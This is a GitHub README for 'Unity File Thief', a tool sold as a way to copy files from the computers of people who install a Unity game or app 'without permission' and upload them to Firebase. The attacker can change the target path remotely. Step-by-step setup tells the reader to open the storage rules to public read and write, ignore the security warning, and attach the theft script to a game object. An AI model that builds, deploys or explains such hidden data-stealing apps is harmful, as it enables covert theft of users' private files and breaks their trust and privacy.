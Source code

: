#🛠It's Updating ...🛠
# ⚠️You May Encounter Errors If You Use It.⚠️


# Unity File Thief
Capture the files of users who installed the Application or Game you created in Unity from an address on their computers without permission (or by asking) and store them on the cloud (Firebase). After collecting the file from the user, you can change the path via Firebase and pull different files.  


## Content
- [Basic Step by Step - Setup](#set-up)
- [Başlık 2](#başlık-2)
- [Başlık 3](#başlık-3)


## Set Up
&nbsp;&nbsp;1- Open your new Unity Project on Unity Hub   
<br>
<br>
**🛠️ SET FIREBASE REALTIME DATABASE & STORAGE FOR UNITY 🛠️**   
   
&nbsp;&nbsp;2- Go to : https://console.firebase.google.com/ . If you dont have any account, Sing Up   
&nbsp;&nbsp;3- Add new Project on Firebase Console (Don't need to enable "Google Analytics")     
&nbsp;&nbsp;4- Add the application to be used in the project panel you opened as Unity   
   
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<img src="https://github.com/SabriACUN/Unity-File-Thief/assets/96339137/37fc2ca2-5789-4f6f-9de2-b81412b0fee8" width="250"/>

&nbsp;&nbsp;5- Choose the Register Type for Operating System (recommend : Android)   
&nbsp;&nbsp;6- Fill the first blank (com.company.appname) [ !! Not important what you write, Write according to the format ]   
&nbsp;&nbsp;7- Don't download "config file" for now. Next Button !   
&nbsp;&nbsp;8- Download Firebase Unity SDK (Zip) and Continue to Console.   
&nbsp;&nbsp;9- Open Sidebar ( If its closed )   
&nbsp;&nbsp;&nbsp;&nbsp;· Under the "Product Categories > Build > Storeage". Click "Get Started" 
&nbsp;&nbsp;&nbsp;&nbsp;· Start in production mode.   
10- Under the "Storage" text, select Rules. Delete the texts of Rules File and Copy and Paste that Rule : 
<pre>
rules_version ='2';  
service firebase.storage{  
  match /b/{bucket}/o {  
    match /{allPaths=**} {  
      allow read, write:if true;  
    }  
  }  
}  
</pre>
··· For NOW warning not important "Your security rules are defined as public, so anyone can steal, modify, or delete data in your database." ···    
11- Go to Sidebar and open Build again. Choose Realtime Database.   
&nbsp;&nbsp;&nbsp;&nbsp;· Create Database   
&nbsp;&nbsp;&nbsp;&nbsp;· You can open in Test Mode.   
&nbsp;&nbsp;&nbsp;&nbsp;· Add a new var.    
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; yol  :   "path"   
12- In the Sidebar there is a Settings Button. Click on it. Choose "Project Settings"   
&nbsp;&nbsp;&nbsp;&nbsp;· "General > Your apps" Download "google-services"   
<br>
<br>
**🛠️ SET UNITY FOR FIREBASE 🛠️** 
<br>
13- Go to Unity. Create a new folder. Name of the folder should be "StreamingAssets"  not with (") - (NAME IS IMPORTANT)   
&nbsp;&nbsp;&nbsp;&nbsp;·Add config file to that folder (google-services)   
14- Extract the Firebase SDK zip and hold FirebaseStorage.unitypackages & FirebaseDatabase.unitypackage and drop to project panel on the Unity. and Import   
15- Create new GameObject and add fileThieff.cs & takeString.cs to your GameObject.    
[ -- For logs and errors that may be encountered, the log printing system is included in the codes, so you can delete it if you want or assign the necessary texts to the desired places as a reference. -- ]  
<br>
<br>

**🛠️ SET THE SCRIPT FOR YOUR OWN DATABASE 🛠️**   
<br>
16- Go to Firebase Project > Storage. Copy Url which starts with gs (example ->  gs://file-thief.appspot.com )   
17- Turn to our script. Find that code line :   
<pre>
"StorageReference storageRef = storage.GetReferenceFromUrl("gs://file-thied.appspot.com/").Child(storagePath);" 
</pre>
&nbsp;&nbsp;&nbsp;&nbsp;· Delete that part  ""gs://file-thied.appspot.com/"" and paste your Url.     
18- Go to Editor and Set Referances for all scripts in Inspector   

**Its Ready to Use !**
- [How to Use](#ho-to-use)
